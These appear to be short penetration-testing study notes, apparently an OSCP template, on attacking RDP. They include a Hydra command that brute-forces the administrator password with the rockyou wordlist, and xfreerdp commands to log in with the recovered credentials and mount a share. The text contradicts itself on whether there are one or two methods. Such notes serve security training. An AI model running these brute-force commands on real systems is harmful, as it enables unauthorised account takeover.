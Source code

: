 There are two methods for this port: one involves finding credentials with another port, and the other employs brute force.

- There is only one method to find credentials on this port, which involves a brute force attack using #Hydra

```sh
 hydra -t 4 -l administrator -P /usr/share/wordlists/rockyou.txt rdp://<% tp.frontmatter["IPVictima"] %>
```

- then further login with xfreerdp

>[!example]  xfreerdp
>```sh
> xfreerdp /u:'Usuario' /p:'Password' /v:<% tp.frontmatter["IPVictima"] %> /dynamic-resolution /drive:"/home/kali/OSCP/Compartida/",Compartida
>```

>[!example]  xfreerdp - DOMINIO
>```sh
> xfreerdp /u:'Usuario' /p:'Password'  /d:dominio.yzx /v:<% tp.frontmatter["IPVictima"] %> /dynamic-resolution /drive:"/home/kali/OSCP/Compartida/",Compartida
>```
